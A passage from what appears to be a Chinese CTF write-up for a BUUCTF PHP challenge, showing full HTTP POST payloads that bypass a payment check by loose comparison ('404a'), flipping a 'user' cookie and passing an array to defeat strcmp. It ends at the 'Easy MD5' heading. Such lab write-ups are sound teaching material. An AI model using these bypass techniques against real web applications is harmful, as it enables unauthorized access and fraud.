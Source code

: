 这里提示我们**POST**`money`和`password`，首先查看代码，意思就是`password`需要被提交一个值（`isset()`），这个值不能为数字类型（`isnumeric()`），同时，这个值需要和`404`弱等于

```http
POST /pay.php HTTP/1.1
Host: 037a92ab-41b4-4066-8aee-a5d7d7d4796b.node4.buuoj.cn
Content-Length: 31
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://037a92ab-41b4-4066-8aee-a5d7d7d4796b.node4.buuoj.cn
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://037a92ab-41b4-4066-8aee-a5d7d7d4796b.node4.buuoj.cn/pay.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: UM_distinctid=17a7701d69cded-0a36b994c25fd8-6373264-384000-17a7701d69d9e0; user=1
Connection: close

password=404a&money=100000000
```

这里我们让`passwrod=404a`，`money=100000000`，我们还发现cookie中包含一个`user=0`，将他置为1，发送，返回得到`Nember lenth is too long`，说明我们的`money`过长，后台大概率采用`strcmp`函数比较，对于这个函数，数组方法绕过即可

### payload

```http
POST /pay.php HTTP/1.1
Host: 037a92ab-41b4-4066-8aee-a5d7d7d4796b.node4.buuoj.cn
Content-Length: 31
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://037a92ab-41b4-4066-8aee-a5d7d7d4796b.node4.buuoj.cn
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://037a92ab-41b4-4066-8aee-a5d7d7d4796b.node4.buuoj.cn/pay.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: UM_distinctid=17a7701d69cded-0a36b994c25fd8-6373264-384000-17a7701d69d9e0; user=1
Connection: close

password=404a&money[]=100000000
```

## Easy MD5

> BJDCTF 2020

